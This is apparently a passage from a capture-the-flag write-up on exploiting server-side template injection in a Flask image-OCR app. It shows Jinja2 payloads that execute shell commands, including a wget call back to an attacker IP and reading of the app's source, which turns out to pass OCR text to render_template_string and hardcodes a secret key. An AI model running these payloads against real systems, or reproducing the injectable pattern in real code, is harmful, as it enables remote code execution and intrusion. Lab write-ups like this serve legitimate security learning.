 ```python
{ { cycler.__init__.__globals__.os.popen(" wget http://10.10.14.58:5453 ").read() } }
```

It was success and get a request.

Tried to get as much information as possible while trying to get a reverse shell...

```python
{ { cycler.__init__.__globals__.os.popen(' cat main.py ').read() } }
```

main.py

```python
import datetime 
import os, random 
from flask.templating import render_template_string 
from werkzeug.utils import secure_filename 
import PIL.Image 
import pytesseract 
from PIL import Image 
from flask import Flask, request, render_template, redirect, url_for, session, send_file 
app = Flask(__name__) 
upload_dir = "/home/svc_acc/app/uploads" 
misc_dir = '/home/svc_acc/app/misc' 
allowed_extensions = ["jpg" ,'png'] 
app.secret_key = b'_5#y2L"F4Q8z\n\xec]/' 

@app.route('/') 
def home(): 
  return render_template("index.html", title="Image Reader") 

@app.route('/scanner', methods=['GET', 'POST']) 
def scan_file(): 
  scanned_text = '' 
  results = '' 
  if request.method == 'POST': 
    start_time = datetime.datetime.now() 
    f = request.files['file'] 
    if f.filename.split('.')[-1] in allowed_extensions: 
      try: 
        ID = str(random.randint(1,10000)) 
        file_name = upload_dir + "/" + secure_filename(f.filename )+ ID 
        f.save(file_name) 
        pytesseract.pytesseract.tesseract_cmd = r'/usr/bin/tesseract' 
        scanned_text = pytesseract.image_to_string(PIL.Image.open(file_name)) 
        results = """<p>{}</p>""".format(scanned_text) 
        r = render_template_string(results) 
        path = misc_dir + "/" + ID + '_' + 'results.txt' 
        with open(path, 'w') as f: 
          f.write(r) 

        return send_file(path, as_attachment=True,attachment_filename='results.txt') 
      except Exception as e: 
        return ('Error occured while processing the image: ' + str(e)) 
  else: 
    return 'Invalid Extension'
```
